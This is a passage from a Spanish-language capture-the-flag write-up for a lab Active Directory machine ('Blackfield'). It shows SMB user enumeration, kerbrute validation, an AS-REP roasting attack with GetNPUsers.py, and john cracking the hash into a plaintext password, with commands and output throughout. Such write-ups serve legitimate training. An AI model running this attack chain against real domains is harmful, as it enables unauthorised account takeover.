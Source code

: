de esta manera podemos ver mas informacion (en las carpetas que tenemos privilegios)
en la carpeta profiles$ vamos a encontrar mas de 300 usurios del dominio pero hay
que ver cuales son validas con el `DC (Domain Controller)`

- Vamos a validar estos usuarios con kerbrute

        smbmap -H 10.10.10.192 -u "null" -r profiles$ | awk 'NF {print $NF}' > users 

este oneliner nos va a volcar solo la parte de los usuarios y nos va a guardar
en users.txt

## [](##header-2)Kerbrute

Esta herramienta es de impacket o tambien lo pueden bajar desde el repositorio de ropnop en github

        kerbrute -user users.txt -dc-ip 10.10.10.192 -domain blackfield.local 

        Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

        [*] Valid user => audit2020
        [*] Valid user => support [NOT PREAUTH]
        [*] Valid user => svc_backup
        [*] No passwords were discovered :'(

tenemos 3 usuarios validos del dominio

## [](##header-2)ASREPRoast Attack

       GetNPUsers.py blackfield.local/ -no-pass -usersfile users.valid

       Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

       [-] User audit2020 doesn't have UF_DONT_REQUIRE_PREAUTH set
       $krb5asrep$23$support@BLACKFIELD.LOCAL:59e765a5b5479d524b397f80a2c4dc2b
       $ae069138d2d70f706a8b5df2a13b0ac2782c946bd771ce82da9fc2483ecdd807e7a487
       78b3076d74fbf3984389758a56b7c1e85fb2860ee9e8b2
       [-] User svc_backup doesn't have UF_DONT_REQUIRE_PREAUTH set

y logramos visualizar un hash que podemos crackear con john the ripper

## [](##header-2)Cracking Hash

      john --wordlist=/usr/share/wordlists/rockyou.txt hash
      Using default input encoding: UTF-8
      Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
      Press 'q' or Ctrl-C to abort, almost any other key for status
      #00^BlackKnight  ($krb5asrep$23$support@BLACKFIELD.LOCAL)     
      1g 0:00:01:37 DONE (2023-03-08 14:04) 0.01025g/s 147055p/s 147055c/s 147055C/s #00p3r..#+*=%
      Use the "--show" option to display all of the cracked passwords reliably
      Session completed.

y tuvimos exito en romper el hash -> support:#00^BlackKnight

- Verificamos que la contraseña obtenida sea valida
